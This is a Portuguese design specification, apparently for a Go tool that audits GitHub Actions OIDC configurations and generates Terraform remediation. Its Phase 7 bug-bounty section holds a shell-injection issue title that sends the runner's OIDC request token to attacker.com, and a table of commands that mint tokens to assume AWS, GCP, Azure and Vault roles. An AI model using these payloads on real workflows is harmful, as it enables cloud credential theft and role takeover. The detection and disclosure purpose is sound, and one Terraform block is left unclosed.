    ActionPrefix string   // Prefixo do uses: (sem versão/@sha)
    Provider     CloudProvider
    KeyFields    []string // Campos de 'with:' a extrair para o relatório
}

var KnownCloudActions = []CloudActionSpec{
    {
        ActionPrefix: "aws-actions/configure-aws-credentials",
        Provider:     ProviderAWS,
        KeyFields:    []string{"role-to-assume", "aws-region", "role-session-name"},
    },
    {
        ActionPrefix: "google-github-actions/auth",
        Provider:     ProviderGCP,
        KeyFields:    []string{"workload_identity_provider", "service_account", "project_id"},
    },
    {
        ActionPrefix: "azure/login",
        Provider:     ProviderAzure,
        KeyFields:    []string{"client-id", "tenant-id", "subscription-id"},
    },
    {
        ActionPrefix: "hashicorp/vault-action",
        Provider:     ProviderVault,
        KeyFields:    []string{"url", "role", "method", "path"},
    },
}
```

---

### 11.3 Regra `OIDC-006`: Unsafe `workflow_run` Trigger with OIDC

Regra ausente no catálogo original. `workflow_run` executa com permissões do repositório base
mesmo quando disparado por um fork, tornando-o equivalente em risco ao `pull_request_target`.

*   **Severidade:** `CRÍTICA`
*   **Condição:** O workflow usa o gatilho `workflow_run` associado a `id-token: write`
    sem restrição de branch (`branches: [main]`) no bloco de configuração do trigger.
*   **Impacto:** Um workflow de fork que dispara o `workflow_run` no repositório base
    permite que código externo seja executado indiretamente com acesso ao token OIDC.
*   **Remediação:**
    ```yaml
    on:
      workflow_run:
        workflows: ["CI"]
        branches: [main]      # Restringir ao branch de confiança
        types: [completed]
    ```
    Além disso, validar explicitamente `github.event.workflow_run.head_branch` antes
    de executar qualquer step privilegiado.

---

### 11.4 Exceção de Pinning para Actions Locais (`action_pinning.go`)

Actions com `uses:` iniciando em `./` referenciam código do próprio repositório e são
intrinsecamente imutáveis (já estão no commit atual). Sem essa exceção, `OIDC-003`
gera falso positivo em 100% dos repositórios com actions locais.

```go
// isLocalAction retorna true se a referência é uma action local do repositório.
// Actions locais não precisam de SHA pinning pois já estão fixadas ao commit do checkout.
func isLocalAction(uses string) bool {
    return strings.HasPrefix(uses, "./")
}

// isSHAPinned retorna true se a referência usa um SHA imutável de 40 caracteres.
var shaPinnedRegex = regexp.MustCompile(`@[0-9a-f]{40}$`)

func isSHAPinned(uses string) bool {
    return shaPinnedRegex.MatchString(uses)
}

// Em action_pinning.go, a verificação final:
func checkStep(step parser.Step) bool {
    if step.Uses == "" {
        return true // step 'run:', sem dependência externa
    }
    if isLocalAction(step.Uses) {
        return true // action local, sempre segura
    }
    return isSHAPinned(step.Uses)
}
```

---

### 11.5 Rate Limiting e Resiliência do `github_api.go`

Sem controle de rate limit, scans de organizações grandes (200+ repos) falham silenciosamente.

```go
// RateLimitedClient encapsula o cliente GitHub com controle automático de rate limit.
type RateLimitedClient struct {
    client *github.Client
    ctx    context.Context
}

// ExecuteWithRetry executa chamadas à API do GitHub e aguarda automaticamente se o rate limit esgotar.
func ExecuteWithRetry[T any](ctx context.Context, fn func() (T, *github.Response, error)) (T, error) {
    const maxRetries = 3
    for i := 0; i < maxRetries; i++ {
        val, resp, err := fn()
        if err == nil {
            return val, nil
        }
        if resp != nil && resp.StatusCode == 403 && resp.Rate.Remaining == 0 {
            resetTime := resp.Rate.Reset.Time
            waitDuration := time.Until(resetTime) + 2*time.Second
            if waitDuration > 0 {
                time.Sleep(waitDuration)
            }
            continue
        }
        return val, err
    }
    var zero T
    return zero, fmt.Errorf("max retries exceeded due to rate limit")
}

// Intervalo mínimo entre requisições de listagem:
const requestIntervalMs = 200
```

---

### 11.6 UnmarshalYAML no Nível de Job (`Job.UnmarshalYAML`)

Como `Job.Permissions` e `Job.PermissionsAll` possuem tags `yaml:"-"`, a deserialização automática do `yaml.v3` ignoraria o bloco `permissions:` de cada job sem um `UnmarshalYAML` explícito na struct `Job`:

```go
// UnmarshalYAML implementa a interface yaml.Unmarshaler para Job no gopkg.in/yaml.v3
func (j *Job) UnmarshalYAML(value *yaml.Node) error {
    type rawJob struct {
        Name        string                 `yaml:"name"`
        Uses        string                 `yaml:"uses"`
        Permissions yaml.Node              `yaml:"permissions"`
        Environment interface{}            `yaml:"environment"`
        Steps       []Step                 `yaml:"steps"`
    }
    var raw rawJob
    if err := value.Decode(&raw); err != nil {
        return err
    }
    j.Name = raw.Name
    j.Uses = raw.Uses
    j.Environment = raw.Environment
    j.Steps = raw.Steps

    // Decodifica permissions de job de forma polimórfica (string ou map)
    if raw.Permissions.Kind == yaml.ScalarNode {
        j.PermissionsAll = raw.Permissions.Value
    } else if raw.Permissions.Kind == yaml.MappingNode {
        var m map[string]string
        if err := raw.Permissions.Decode(&m); err == nil {
            j.Permissions = m
        }
    }
    return nil
}
```

---

### 11.7 Mapeamento de Sub-Claims na Síntese de Políticas Cloud

O motor de remediação (`pkg/remediation/`) deve mapear a claim `sub` de acordo com a precedência do contexto de execução:

| Contexto de Execução | Padrão da Claim `sub` Gerada | Exemplo de Saída |
| :--- | :--- | :--- |
| **Gated por Environment** | `repo:ORG/REPO:environment:ENV_NAME` | `repo:acme/backend:environment:production` |
| **Trigger Push em Branch** | `repo:ORG/REPO:ref:refs/heads/BRANCH` | `repo:acme/backend:ref:refs/heads/main` |
| **Trigger Push em Tag** | `repo:ORG/REPO:ref:refs/tags/TAG` | `repo:acme/backend:ref:refs/tags/v*` |
| **Pull Request (Não Recomendado para Deploy)** | `repo:ORG/REPO:pull_request` | `repo:acme/backend:pull_request` |

**Lógica de Resolução em `remediation/aws_iam.go` & `remediation/gcp_wif.go`:**
```go
// SynthesizeSubClaim calcula a claim 'sub' mínima com base no job e triggers do workflow.
func SynthesizeSubClaim(owner, repo string, wf *parser.Workflow, job *parser.Job) string {
    base := fmt.Sprintf("repo:%s/%s", owner, repo)

    // Precedência 1: Se o job está vinculado a um Environment, o GitHub sempre emite claim de environment
    if envName := job.GetEnvironmentName(); envName != "" {
        return fmt.Sprintf("%s:environment:%s", base, envName)
    }

    // Precedência 2: Se o trigger possui restrição explícita de branch
    if pushCond, ok := wf.On.Conditions["push"].(map[string]interface{}); ok {
        if branches, ok := pushCond["branches"].([]interface{}); ok && len(branches) > 0 {
            return fmt.Sprintf("%s:ref:refs/heads/%v", base, branches[0])
        }
    }

    // Default seguro: branch main
    return fmt.Sprintf("%s:ref:refs/heads/main", base)
}
```

---

## 12. Fase 6: Expansão do Core de Segurança em Nuvem e Análise Estrutural (Core Expansion)

Esta fase amplia a profundidade técnica do motor em três eixos genuínos de segurança:

### Subfase 6.1: Síntese de Políticas de Federação para HashiCorp Vault e Kubernetes
*   **`pkg/remediation/vault_jwt.go`:** Geração determinística de papéis de autenticação JWT (`bound_claims`, `bound_audiences`, `user_claim`) para o backend de autenticação JWT do HashiCorp Vault.
*   **`pkg/remediation/k8s_oidc.go`:** Geração de anotações e manifestos de ServiceAccount para federação OIDC em clusters Kubernetes (Amazon EKS Pod Identity / IRSA, GKE Workload Identity e Azure AKS Workload Identity).

### Subfase 6.2: Regra `OIDC-007` — Persistência e Risco em Self-Hosted Runners Privilegiados
*   **Severidade:** `ALTA`
*   **Condição:** Um job com `id-token: write` ou `permissions: write-all` utiliza runners auto-hospedados (`runs-on: [self-hosted, ...]`).
*   **Risco Técnico:** Diferente de máquinas virtuais efêmeras gerenciadas pelo GitHub, runners auto-hospedados não efêmeros mantêm estado de disco, processos em background e sockets Docker entre execuções. Um job não privilegiado posterior pode extrair credenciais de sessões anteriores deixadas no sistema de arquivos.
*   **Remediação:** Isolar jobs de deploy OIDC em GitHub-hosted runners efêmeros (`runs-on: ubuntu-latest`) ou utilizar runners auto-hospedados estritamente efêmeros (Ephemeral Runners via Actions Runner Controller).

### Subfase 6.3: Rastreamento de Injeção em Workflows Reutilizáveis (Cross-Workflow Taint)
*   **Objetivo:** Rastrear a propagação de inputs controlados por usuários externos (`inputs.*` e `github.event.*`) quando passados como argumentos para workflows reutilizáveis (`workflow_call`).

---

## 13. Fase 7: Análise de Cadeias de Exploração e Modo de Recompensa de Vulnerabilidades (Offensive Exploit Chains & Bug Bounty Mode)

**Objetivo:** Elevar o motor do `gha-oidc-auditor` da categoria de análise estática de postura (SAST) para um motor ofensivo de detecção de cadeias de exploração de zero pré-requisito (*Zero-Prerequisite Exploit Chains*), capaz de identificar caminhos de ataque exploráveis por qualquer atacante não autenticado/externo e sintetizar relatórios estruturados para programas de Bug Bounty (HackerOne, Bugcrowd, Google VRP).

---

### 13.1 Teorema Fundamental de Exploração em CI/CD (Cadeia Invariante)

Diferente de um alerta isolado de má configuração (Policy Smell), uma cadeia de exploração válida para Bug Bounty exige a conjunção estrita de 4 elos invariantes:

$$\text{ExploitChain} = \text{Trigger}_{\text{untrusted}} \land \text{Guard}_{\text{missing}} \land \text{Execution}_{\text{primitive}} \land \text{Privilege}_{\text{OIDC}}$$

1. **Gatilho Público Não Autenticado ($\text{Trigger}_{\text{untrusted}}$):** O workflow é acionado por eventos disparáveis por qualquer usuário externo (`pull_request_target`, `issues`, `issue_comment`, `discussion`, `discussion_comment` ou `workflow_run`).
2. **Ausência de Guardas de Acesso ($\text{Guard}_{\text{missing}}$):** O job não possui `environment` com aprovação manual e não possui filtros de ator/fork na cláusula `if:` (`user.login ==`, `actor ==`, `head.repo.fork == false`).
3. **Vetor de Execução/Injeção ($\text{Execution}_{\text{primitive}}$):** Ocorre checkout de código de branch de fork não confiável (`ref: head.sha`/`head.ref`) seguido de build/execução, ou interpolação direta de contexto externo em script de shell (`run: ... ${{ github.event.issue.title }} ...`), ou injeção em JavaScript (`actions/github-script`).
4. **Ativo de Nuvem Privilegiado ($\text{Privilege}_{\text{OIDC}}$):** O job possui permissão ativa de emissão de token (`id-token: write` ou `write-all`) vinculado a uma Role ou Provedor de Nuvem mapeado (AWS IAM, GCP WIF, Azure Managed Identity, HashiCorp Vault).

---

### 13.2 Estruturas de Dados do Motor Ofensivo (`pkg/analyzer/exploit_chain.go`)

```go
// ExploitChain descreve uma cadeia ponta a ponta explorável sem pré-requisitos.
type ExploitChain struct {
    ID             string        `json:"id"`
    Title          string        `json:"title"`
    Severity       Severity      `json:"severity"` // Sempre CRITICAL
    WorkflowPath   string        `json:"workflow_path"`
    JobName        string        `json:"job_name"`
    TriggerEvent   string        `json:"trigger_event"`
    IngressVector  string        `json:"ingress_vector"`
    ExecutionStep  int           `json:"execution_step"`
    TargetCloud    CloudProvider `json:"target_cloud"`
    TargetRoleARN  string        `json:"target_role_arn,omitempty"`
    AudienceClaim  string        `json:"audience_claim"`
    PoCPayload     string        `json:"poc_payload"`
    ReportTemplate string        `json:"report_template"`
}

// ExploitChainDetector define a interface do analisador de cadeias de ataque.
type ExploitChainDetector interface {
    DetectChains(wf *parser.Workflow) []ExploitChain
}
```

---

### 13.3 Catálogo das 4 Primitivas Ofensivas de Exploração

#### Cadeia 1: Pwn-Request Clássico (PRT + Head Ref Checkout + Build/Test Execution)
*   **Condição:** `pull_request_target` sem `environment` + `actions/checkout` com `ref: ${{ github.event.pull_request.head.sha }}` + step subsequente executando `run: npm/make/mvn/python/pytest/go/bundle` + `id-token: write`.
*   **Vetor de Ataque:** O atacante abre um Pull Request a partir de seu fork contendo código malicioso em scripts de build (`package.json`, `Makefile`, etc.). O runner do repositório base baixa o código do fork e o executa com privilégios OIDC totais.
*   **Impacto CVSS:** `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H` (**9.8 - Crítico**).

#### Cadeia 2: Injeção de Expressão de Gatilho Público em Shell Script
*   **Condição:** `on: [issues, issue_comment, pull_request, discussion]` + step `run:` interpolando variáveis externas (`github.event.issue.title`, `github.event.comment.body`, `github.head_ref`) + `id-token: write`.
*   **Vetor de Ataque:** O atacante abre uma Issue ou posta um comentário com payload de quebra de shell (ex.: `Title: "; curl -d "$ACTIONS_ID_TOKEN_REQUEST_TOKEN" https://attacker.com; #`).
*   **Impacto CVSS:** `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H` (**9.8 - Crítico**).

#### Cadeia 3: Injeção de Código em `actions/github-script`
*   **Condição:** Step `uses: actions/github-script@v...` contendo template literals com contextos de eventos externos (`const title = "${{ github.event.issue.title }}";`) + `id-token: write`.
*   **Vetor de Ataque:** Injeção de JavaScript direto no contexto de execução Node.js do Octokit com acesso a tokens de nuvem e segredos.
*   **Impacto CVSS:** `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:H` (**9.8 - Crítico**).

#### Cadeia 4: Envenenamento de Artefato em `workflow_run` Privilegiado
*   **Condição:** Workflow não confiável em `pull_request` gera artefato + Workflow privilegiado em `workflow_run` com OIDC faz download do artefato e o executa/deserializa de forma insegura.
*   **Vetor de Ataque:** O atacante envia um PR com artefato envenenado que é executado no workflow privilegiado subsequente.
*   **Impacto CVSS:** `CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:C/C:H/I:H/A:N` (**9.3 - Crítico**).

---

### 13.4 Gerador Dinâmico de Payloads de Exfiltração de Nuvem

O motor sintetiza o comando de exfiltração determinístico de acordo com o provedor identificado:

| Provedor de Nuvem | Audience Padrão | Payload de Exfiltração PoC Sintetizado |
| :--- | :--- | :--- |
| **AWS STS** | `sts.amazonaws.com` | `TOKEN=$(curl -s -H "Authorization: Bearer $ACTIONS_ID_TOKEN_REQUEST_TOKEN" "$ACTIONS_ID_TOKEN_REQUEST_URL&audience=sts.amazonaws.com" \| jq -r '.value'); aws sts assume-role-with-web-identity --role-arn <ROLE_ARN> --role-session-name pwn --web-identity-token $TOKEN` |
| **Google Cloud WIF** | `https://iam.googleapis.com/...` | `TOKEN=$(curl -s -H "Authorization: Bearer $ACTIONS_ID_TOKEN_REQUEST_TOKEN" "$ACTIONS_ID_TOKEN_REQUEST_URL&audience=<PROVIDER_AUDIENCE>" \| jq -r '.value'); gcloud auth login --cred-file=<STS_CONFIG>` |
| **Azure AD / Entra ID** | `api://AzureADTokenExchange` | `TOKEN=$(curl -s -H "Authorization: Bearer $ACTIONS_ID_TOKEN_REQUEST_TOKEN" "$ACTIONS_ID_TOKEN_REQUEST_URL&audience=api://AzureADTokenExchange" \| jq -r '.value'); az login --federated-token $TOKEN` |
| **HashiCorp Vault** | `vault` (ou custom) | `TOKEN=$(curl -s -H "Authorization: Bearer $ACTIONS_ID_TOKEN_REQUEST_TOKEN" "$ACTIONS_ID_TOKEN_REQUEST_URL&audience=vault" \| jq -r '.value'); curl -X POST $VAULT_ADDR/v1/auth/jwt/login -d "{\"jwt\":\"$TOKEN\", \"role\":\"<ROLE>\"}"` |

---

### 13.5 Interface de Linha de Comando (CLI Flags)

*   `--bounty-mode`: Filtra a saída para exibir **apenas** cadeias de exploração de zero pré-requisito com severidade Crítica.
*   `--generate-poc`: Gera arquivos de relatório Markdown estruturados prontos para submissão direta em plataformas de Bug Bounty (HackerOne, Bugcrowd, Google VRP).
*   `--poc-output <path>`: Define o caminho de salvamento do template de PoC (ex.: `reports/poc_hackerone.md`).

---

### 13.6 Critérios de Aceitação e Testes Automatizados (Fase 7)

| Critério de Teste | Validação Esperada |
| :--- | :--- |
| **Fixture `pwn_request_rce.yml`** | Detecta Cadeia 1 (CRITICAL), sintetiza PoC de fork PR e gera payload de exfiltração de role AWS. |
| **Fixture `issue_comment_injection.yml`** | Detecta Cadeia 2 (CRITICAL), sintetiza PoC de Issue title com quebra de shell. |
| **Fixture `safe_prt_actor_guarded.yml`** | **NÃO** dispara ExploitChain (zero falsos positivos em workflows protegidos por actor/environment). |
| **Exportador Markdown PoC** | Gera documento Markdown contendo Título, CVSS 3.1, Resumo de Impacto, Passos de Reprodução e Remediação. |

---

## 14. Fase 8: A Fronteira Além do SAST — CIEM, Remediation-as-Code e Grafo Distribuído

Para consolidar o projeto no estado da arte absoluto e romper as barreiras teóricas do SAST convencional (Teorema de Rice, problemas de indecidibilidade em scripts arbitrários), a Fase 8 expande o escopo de um *linter estático* para uma **Plataforma Unificada de Gestão de Postura de Segurança de Aplicações e Identidades de Nuvem (ASPM / CIEM)**.



### 14.1 Remediation-as-Code (Síntese HCL para Terraform & OpenTofu)

Além de gerar documentos JSON brutos de trust policy, o motor sintetiza definições completas de Infraestrutura como Código (IaC) prontas para execução imediata (`terraform apply`), reduzindo o tempo médio de remediação (MTTR) de dias para segundos.

#### 14.1.1 Módulo AWS IAM OIDC (Terraform / OpenTofu)
```hcl
# Generated by gha-oidc-auditor (Least-Privilege Remediation)
data "aws_iam_policy_document" "gha_oidc_assume_role" {
  statement {
    effect  = "Allow"
    actions = ["sts:AssumeRoleWithWebIdentity"]

    principals {
      type        = "Federated"
      identifiers = ["arn:aws:iam::${var.account_id}:oidc-provider/token.actions.githubusercontent.com"]
    }

    condition {
      test     = "StringEquals"
      variable = "token.actions.githubusercontent.com:aud"
      values   = ["sts.amazonaws.com"]
    }

    condition {
      test     = "StringLike"
      variable = "token.actions.githubusercontent.com:sub"
      values = [
        "repo:${var.github_org}/${var.github_repo}:ref:refs/heads/main",
        "repo:${var.github_org}@*/${var.github_repo}@*:ref:refs/heads/main" # July 2026 Immutable Format
      ]
    }
  }
}

resource "aws_iam_role" "gha_deploy_role" {
  name               = "${var.github_repo}-gha-deploy"
  assume_role_policy = data.aws_iam_policy_document.gha_oidc_assume_role.json
  tags = {
    ManagedBy = "gha-oidc-auditor"
    Security  = "Least-Privilege-OIDC"
  }
}
```

#### 14.1.2 Módulo GCP Workload Identity Federation (Terraform HCL)
```hcl
resource "google_iam_workload_identity_pool_provider" "gha_provider" {
  workload_identity_pool_id          = var.wif_pool_id
  workload_identity_pool_provider_id = "${var.github_repo}-provider"
  display_name                       = "GitHub Actions Provider for ${var.github_repo}"

  attribute_mapping = {
    "google.subject"             = "assertion.sub"
    "attribute.actor"            = "assertion.actor"
    "attribute.repository"       = "assertion.repository"
    "attribute.repository_id"    = "assertion.repository_id"
    "attribute.repository_owner" = "assertion.repository_owner"
  }

  attribute_condition = "assertion.repository == '${var.github_org}/${var.github_repo}' && assertion.ref == 'refs/heads/main'"

#### 14.1.3 Modos de Entrega do Remediation-as-Code (CLI & GitOps)
O motor suporta três formatos de entrega para integração contínua:
1. **Modo Arquivo (`--generate-hcl --hcl-output <dir>`):** Escreve arquivos `.tf` modulares e independentes (ex.: `aws_oidc.tf`, `gcp_wif.tf`, `azure_federation.tf`) diretamente no diretório do projeto ou repositório de infraestrutura.
2. **Modo Stdout Formatado (`--format hcl`):** Emite código HCL limpo e indentado diretamente no stdout para consumo em pipelines de automação (`gha-oidc ... | terraform fmt -`).
3. **Modo GitOps / Pull Request Automático (`--fix-pr`):** Cria uma branch de remediação `gha-oidc-fix/least-privilege-<id>`, comita os arquivos `.tf` sintetizados e submete automaticamente um Pull Request para aprovação do time de segurança.

---

### 14.2 Resolução de Grafo de Reusable Workflows Inter-Repositórios (`workflow_call`)

Organizações corporativas modernas utilizam malhas de workflows reutilizáveis centralizados. A Fase 8 implementa a resolução de grafo inter-repositórios:

1. **Rastreamento de Herança de Segredos (`secrets: inherit`):** Mapeia o fluxo de segredos através de múltiplos níveis de chamada (`Workflow A -> uses: Org/Shared -> uses: Org/CoreDeploy`).
2. **Propagação de Contexto OIDC:** Se um workflow chamador concede `permissions: id-token: write`, o auditor rastreia se o workflow chamado executa código não confiável com as credenciais do chamador.
3. **Detecção de Dependências Circulares e Redundantes:** Identifica laços de chamada e dependências vulneráveis a *version drifting*.

#### 14.2.1 Autenticação, Escopos de Token e Cache Multi-Camadas
Para auditar grafos profundos em repositórios privados sem estourar *rate limits* da API:
* **Escopos de Token Mínimos:**
  * GitHub App (Recomendado): Permissões de leitura em `Actions (read)` e `Repository contents (read)`.
  * Personal Access Token (PAT): `repo` (ou `read:packages`, `read:org` para repositórios corporativos).
* **Mecanismo de Cache Multi-Camadas:**
  * **L1 (In-Memory LRU Cache):** Armazena ASTs já decodificadas de workflows reutilizáveis durante a mesma execução.
  * **L2 (Disk Cache com TTL):** Armazena blobs de workflows remotos em `~/.cache/gha-oidc/workflows/<sha256(owner/repo/ref/path)>.yaml` com chave de invalidação baseada no commit SHA do repositório remoto.

---

### 14.3 Cloud-to-Code Graph (CIEM & Descoberta de Orphaned Roles)

O auditor conecta-se (em modo de auditoria remota com credenciais de leitura de nuvem) para mapear a discrepância entre **o que está configurado na nuvem** e **o que realmente existe no código**:

| Cenário de Risco CIEM | Mecanismo de Detecção | Impacto |
| :--- | :--- | :--- |
| **Orphaned Trust Role** | Role na AWS/GCP possui trust em `token.actions.githubusercontent.com`, mas nenhum workflow na organização faz referência ao seu ARN. | A role pode ser alvo de *takeover* ou persistência de atacantes sem que o time de DevOps perceba. |
| **Overprivileged Scope Drift** | A Trust Policy na nuvem aceita `repo:org/*` (wildcard), mas o workflow no repositório roda apenas na branch `main`. | Violação de isolamento de privilégio mínimo. O auditor sugere a retração imediata da política. |
| **Shadow Environment Trust** | O workflow exige aprovação para o ambiente `production`, mas a Trust Policy da AWS confia apenas na claim de branch `ref:refs/heads/main` sem exigir `environment:production`. | Um atacante que commite na branch `main` pode assumir a role sem passar pelo gate de aprovação do GitHub Environment. |

#### 14.3.1 Matriz de Permissões Estritamente Read-Only para o Modo CIEM
O auditor opera sob princípio de privilégio mínimo absoluto. Não requer nenhuma permissão de escrita ou mutação na nuvem:

| Provedor de Nuvem | Ações / Permissões IAM Estritamente Read-Only |
| :--- | :--- |
| **Amazon Web Services (AWS)** | `iam:ListRoles`, `iam:GetRole`, `iam:GetOpenIDConnectProvider`, `iam:ListRolePolicies`, `iam:GetRolePolicy`, `iam:ListAttachedRolePolicies` |
| **Google Cloud Platform (GCP)** | `iam.workloadIdentityPoolProviders.list`, `iam.workloadIdentityPoolProviders.get`, `iam.workloadIdentityPools.list`, `iam.workloadIdentityPools.get`, `iam.serviceAccounts.getIamPolicy` |
| **Microsoft Azure (Entra ID)** | `Microsoft.Graph/applications/federatedIdentityCredentials/read`, `Application.Read.All` |

---

### 14.4 Análise Heurística de Fluxo de Dados (Taint Analysis) em Shell Scripts

Implementação de um tokenizador léxico leve para passos `run:` para rastrear o fluxo de dados sem a lentidão de um compilador completo:
1. **Detecção de Comandos Indiretos:** Identifica construções como `eval "$VAR"`, `bash -c "$CMD"` e interpolações dentro de blocos inline `python -c` ou `node -e`.
2. **Reconhecimento de Padrões de Sanitização:** Identifica se o desenvolvedor utilizou `jq -r`, `sed` ou codificação `base64` antes da interpolação, ajustando a confiança do achado para evitar falsos positivos desnecessários.

---

### 14.5 Critérios de Aceitação e Validação da Fase 8

| Critério de Teste | Validação Esperada |
| :--- | :--- |
| **Gerador Terraform AWS HCL** | Produz código HCL sintaticamente válido (`data "aws_iam_policy_document"` e `resource "aws_iam_role"`) com tags imutáveis de 2026. |
| **Gerador Terraform GCP HCL** | Produz recurso `google_iam_workload_identity_pool_provider` com `attribute_mapping` e `attribute_condition` estritos. |
| **Validação Offline de Trust Policies** | `ValidateAWSTrustPolicyJSON` detecta wildcards, ausência de conditions e falta de compliance com 2026. |
| **Resolução de Reusable Workflows** | Analisa dependências e herança de permissões em chamadas `workflow_call` locais e remotas com cache L1/L2. |
| **Validação CIEM Read-Only** | Executa varredura de roles de nuvem com credenciais estritas de leitura sem gerar chamadas de mutação. |


